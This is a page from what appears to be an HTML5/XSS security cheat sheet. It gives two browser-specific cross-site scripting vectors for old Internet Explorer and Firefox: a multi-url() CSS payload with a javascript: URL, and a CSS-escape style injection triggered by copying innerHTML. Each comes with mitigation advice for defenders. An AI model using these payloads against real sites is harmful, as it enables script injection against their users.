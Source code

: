 *   [#111](#111)
*   [#112](#112)
*   [#114](#114)

reporter：LeverOne

### Multiple CSS "url()" values in IE 6[#93](#93)[test](test/#93)

Internet Explorer supports multiple "url()" values all of which can contain payload. The delimiter between the "url()" values should be a whitespace character ("\x20" in the given example).


```
<div style="list-style:url(http://foo.f)\20url(javascript:alert(1));">X</div>
```

Make sure in case the user is allowed to submit CSS it is being filtered and whitelisted correctly to avoid attacks via multiple backgrounds.

*   internet explorer 6.0

*   xss
*   css
*   internet explorer
*   trick
*   url

reporter：LeverOne

### Style injection when copying innerHTML (3)[#98](#98)[test](test/#98)

The example shows that Internet Explorer and Mozilla Firefox automaticaly decode CSS-encoding if the harmless markup is copied using innerHTML.


```
<div id=d><div style="font-family:'sans\27\2F\2A\22\2A\2F\3B color\3Ared\3B'">X</div></div> <script>with(document.getElementById("d"))innerHTML=innerHTML</script>
```

Be very careful when handling user generated HTMl in the DOM later on. The innerHTML property does not always contain what it's supposed to.

*   internet explorer 6.0
*   internet explorer latest (in older docmodes)

*   firefox 2.x
*   firefox 3.6.28

*   xss
*   javascript
*   internet explorer
*   script
*   dom
*   innerhtml
*   css
